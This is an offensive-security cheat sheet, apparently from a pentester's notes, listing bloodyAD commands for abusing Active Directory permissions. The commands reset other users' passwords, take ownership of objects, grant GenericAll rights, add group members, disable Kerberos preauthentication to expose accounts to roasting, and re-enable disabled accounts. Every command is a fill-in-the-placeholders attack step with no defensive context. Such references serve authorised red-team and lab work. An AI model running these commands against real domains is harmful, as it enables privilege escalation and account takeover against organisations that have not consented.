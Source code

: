 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## Set password
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' set password <target_user> '<passwd|Password123!>'
```

## Get writable
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' set owner '<object>' <our_user>
```

## Add GenericAll
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add genericAll '<object>' <our_user>
```

## Add group member
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add groupMember <group> <member>
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add uac '<object>' -f DONT_REQ_PREAUTH
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd' remove uac 'account' -f ACCOUNTDISABLE
```
